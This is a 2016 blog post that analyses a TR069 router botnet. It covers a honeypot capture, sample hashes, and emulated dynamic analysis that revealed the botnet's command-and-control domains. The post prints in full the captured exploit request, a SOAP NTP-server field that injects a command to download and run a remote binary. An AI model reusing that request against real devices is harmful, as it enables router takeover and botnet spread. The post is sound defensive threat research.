 ```yaml
---
inFeed: true
description: '29 NOVEMBER 2016 on malware, botnet, honeypots, mass scanning, technical'
dateModified: '2016-12-30T18:17:24.052Z'
datePublished: '2016-12-30T18:17:24.385Z'
title: Quick TR069 Botnet Writeup + Triage
author: []
publisher: {}
via: {}
hasPage: true
sourcePath: _posts/2016-12-30-quick-tr069-botnet-writeup-triage.md
starred: false
datePublishedOriginal: '2016-12-30T18:12:34.784Z'
url: quick-tr069-botnet-writeup-triage/index.html
_type: Article

---
```

# Quick TR069 Botnet Writeup + Triage

29 NOVEMBER 2016 on [malware][0], [botnet][1], [honeypots][2], [mass scanning][3], [technical][4]

A wormable exploit for the recently published TR069 is being actively exploited. I pulled down some samples and hacked together a goofy way to perform dynamic analysis with Docker, Qemu, and Tcpdump. The C2 domains are tr069\[.\]support and tr069\[.\]online.

---

There are several different botnets propogating this worm. I'm only going to document one of them in this post. Also I haven't written a blog post in like a year so here goes nothing.

# Background

A few articles have crossed my news feeds about the recent TR069 vulnerability. Including the following-

* [http://arstechnica.com/security/2016/11/notorious-iot-botnets-weaponize-new-flaw-found-in-millions-of-home-routers/][5]
* [https://blog.fox-it.com/2016/11/28/recent-vulnerability-in-eir-d1000-router-used-to-spread-updated-version-of-mirai-ddos-bot/][6]
* [https://isc.sans.edu/diary/Port+7547+SOAP+Remote+Code+Execution+Attack+Against+DSL+Modems/21759][7]

I figured I'd whip up a web server on a machine I had laying around (something like a raspberry pi) and forward TCP port 7547 through my router, as well as a sniffer for any funky stuff.

# Analysis

Within about five minutes I was getting hits. The malicious requests have already been documented by some of the aforementioned posts, but the requests look something like this:

POST /UD/act?1 HTTP/1.1 Host: 127.0.0.1:7547 User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1) SOAPAction: urn:dslforum-org:service:Time:1\#SetNTPServers Content-Type: text/xml Content-Length: 519 **<?xml version="1.0"?\>** <SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" SOAP ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"\> <SOAP-ENV:Body\> <u:SetNTPServers xmlns:u="urn:dslforum-org:service:Time:1"\> <NewNTPServer1\>\`cd /tmp;wget http://srrys.pw/1;chmod 777 1;./1\`</NewNTPServer1\> <NewNTPServer2\></NewNTPServer2\> <NewNTPServer3\></NewNTPServer3\> <NewNTPServer4\></NewNTPServer4\> <NewNTPServer5\></NewNTPServer5\> </u:SetNTPServers\> </SOAP-ENV:Body\> </SOAP-ENV:Envelope\>

Notice the not-so-subtle command injection in this line-

<NewNTPServer1\>\`cd /tmp;wget http:_//srrys.pw/1;chmod 777 1;./1_\`</NewNTPServer1\>

So I routed curl through Tor and downloaded the sample. Also, having reversed a decent amount of shitty IOT worms in my day I went on a hunch and requested hxxp://srrys\[.\]pw/2 through hxxp://srrys\[.\]pw/10 as well and got more hits.

$ file \* 1: ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped 2: ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, stripped 3: ELF 32-bit LSB executable, ARM, version 1, statically linked, stripped 4: ELF 32-bit LSB executable, Renesas SH, version 1 (SYSV), statically linked, stripped 5: ELF 32-bit MSB executable, PowerPC **or** cisco 4500, version 1 (SYSV), statically linked, stripped 6: ELF 32-bit MSB executable, SPARC, version 1 (SYSV), statically linked, stripped 7: ELF 32-bit MSB executable, Motorola m68k, 68020, version 1 (SYSV), statically linked, stripped

...with the following SHA256 hashes...

971156ec3dca4fa5c53723863966ed165d546a184f3c8ded008b029fd59d6a5a 1 9f9c38740568cbe1fbb8171b1ad4221c43790ff106623555868abf76f9672e53 2 1fce697993690d41f75e0e6ed522df49d73a038f7e02733ec239c835579c40bf 3 828984d1112f52f7f24bbc2b15d0f4cf2646cd03809e648f0d3121a1bdb83464 4 c597d3b8f61a5b49049006aff5abfe30af06d8979aaaf65454ad2691ef03943b 5 046659391b36a022a48e37bd80ce2c3bd120e3fe786c204128ba32aa8d03a182 6 5d4e46b3510679dc49ce295b7f448cd69e952d80ba1450f6800be074992b07cc 7

If you've ever tracked IOT threats before this will be a familiar sight. Lots of malware cross compiles for lots of different architectures, like in [this example][8].

Lets do some basic static analysis. _This is usually where I'd bust out my IDA Pro but some fucker stole my laptop recently and I haven't gotten my new license yet._ So instead we're going to use Radare2, something equally cool but less familiar to me. Shouts out to the R2 team. Keep doing God's work.

$ r2 1 Warning: Cannot initialize dynamic strings -- Change the graph block definition with graph.callblocks, graph.jmpblocks, graph.flagblocks \[0x00400260\]\> aa \[x\] Analyze all flags starting with sym. **and** entry0 (aa)

I run the aa command to analyze the code/functions, followed by pdf @mainto disassemble main in the regular mode and V @main + space bar to disassemble in visual mode.

_ah yes_

_of course_

_indeed_

oh wait. I don't know MIPS assembly lmfao. But I do know enough assembly to know the file is obfuscated, since the strings are broken and it has reasonably high Shannon entropy.

I sure as shit don't know Motorola m68k or SPARC because I'm a useless millennial.

My ARM is slightly better, so I could reverse that sample. But all I really want to do is find the C2 (command and control) domains.

So static analysis is out of the question. Let's try dynamic analysis.

# MIPS dynamic malware analysis on a budget

The term "dynamic malware analysis" just refers to observing a piece of malwares behavior as it's executing. I'm not a computer engineering major in 2003 so I don't have any MIPS hardware laying around at my house. Instead I'll just emulate a MIPS device with Qemu. Qemu is an emulator, capable of emulating different kinds of hardware. Getting it to work is a pain in the ass sometimes. Fortunately [someone Dockerized it][9].

Docker is a container technology that makes it stupid easy to run software without worrying about things like configuration. It's awesome.

So I grabbed the sample and pulled down the docker container with the following command:

$ docker run -it asmimproved/qemu-mips root@0a5f2731be8e:/project_\#_

From that shell I pulled down tcpdump into the Docker container and started logging pcap to a file.

root@0a5f2731be8e:/project_\# tcpdump -w capture.pcap -n -U_

From another Bash prompt I dropped into the terminal, chmod +x'd the sample, and executed it with the following commands:

$ docker exec -ti peaceful\_spence bash root@0a5f2731be8e:/project_\# chmod +x 1_ root@0a5f2731be8e:/project_\# qemu-mipsel ./1_

You also have to worry about opsec and safe analysis and segmentation and all that, but I'll leave that stuff for a smarter reverser to explain. Anyways, the sample detonated, deobfuscated itself in memory, resolved DNS for the C2s, and started scanning the Internet for more devices to compromise. I let it run for a minute or so, pulled down the pcap, and cracked it open. I found scans to random IPs on TCP ports 7547 and 5555\.

My pcap data showed me the two callback domains for command and control are tr069\[.\]online and tr069.support. Very sneaky.

Whois data shows me both domains were registered earlier today.

$ whois tr069.support Domain Name: tr069.support Domain ID: fec618e5a8fd4ac7bbc5597a04696b08-DONUTS WHOIS Server: www.gandi.net/whois Referral URL: https:_//www.gandi.net_ Updated Date: 2016-11-29T10:40:22Z Creation Date: 2016-11-29T10:40:22Z ...

# Conclusion

There's nothing sophisticated about this malware. It probably doesn't affect your network. But the amount of vulnerable devices on the Internet is something you should give a shit about. This is how botnets happen, and botnets are how big DDoS attacks happen.

I don't have a Yara signature for this malware because nobody uses Yara on embedded devices.

My recommendations?

* Don't give your money to vendors that have a long history of consistently not giving a shit about securing their products
* Check if port 7547 is open on your router. If so, probably just buy a new router
* If you want to be really paranoid and you run a big website or company, use Shodan to find all the vulnerable devices and go ahead and block them so you don't have to worry about getting caught in the DDoS fallout when it inevitably happens.

Hit me up on [Twitter][10] or shoot me an email if you have any questions. Thanks for reading my post!

--Andrew

[0]: http://morris.sc/tag/malware/
[1]: http://morris.sc/tag/botnet/
[2]: http://morris.sc/tag/honeypots/
[3]: http://morris.sc/tag/mass-scanning/
[4]: http://morris.sc/tag/technical/
[5]: http://arstechnica.com/security/2016/11/notorious-iot-botnets-weaponize-new-flaw-found-in-millions-of-home-routers/
[6]: https://blog.fox-it.com/2016/11/28/recent-vulnerability-in-eir-d1000-router-used-to-spread-updated-version-of-mirai-ddos-bot/
[7]: https://isc.sans.edu/diary/Port+7547+SOAP+Remote+Code+Execution+Attack+Against+DSL+Modems/21759
[8]: https://github.com/eurialo/lightaidra
[9]: https://hub.docker.com/r/asmimproved/qemu-mips/
[10]: https://twitter.com/andrew___morris